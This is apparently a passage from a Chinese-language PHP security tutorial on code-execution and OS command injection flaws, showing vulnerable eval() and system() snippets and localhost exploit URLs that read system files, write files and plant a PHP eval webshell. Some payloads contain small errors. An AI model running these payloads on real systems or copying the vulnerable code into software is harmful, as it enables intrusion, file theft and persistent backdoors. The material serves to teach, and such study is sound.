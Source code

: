 > 漏洞代码

```php
$code=$_REQUEST['code'];
eval($code);
```

> 漏洞利用

1、可以通过shell直接用蚁剑连接

```txt
shell: http://localhost/php/eval.php
pass: code
```

2、获取当前文件绝对路径

```http
http://localhost/php/eval.php?code=print(_FILE_)
```

3.读文件

```http
http://localhost/php/eval.php?code=print(file_get_contents('eval.php'))
http://localhost/php/eval.php?code=print(file_get_contents('c:/windows/system32/drivers/hosts'))
```

4.写文件

```http
http://localhost/php/eval.php?code=file_put_contents('hh.php','<?php phpinfo();?>')
```



## OS命令注入

应用在调用函数执行系统命令时吗，如果将用户的输入作为系统命令的参数拼接到命令行中，会造成命令执行漏洞；

> 漏洞代码

```php
$shell=$_REQUEST['cmd'];
system($shell);
```

> 漏洞利用

1.读系统文件

```http
http://localhost/php/eval.php?cmd=type c:/windows/system32/drivers/hosts
http://localhost/php/eval.php?cmd=cd /etc/passwd
```

2.写文件

```http
http://localhost/php/eval.php?cmd=echo ^<^?php @eval($_REQUEST['dong'])^?^> >shell.php
```
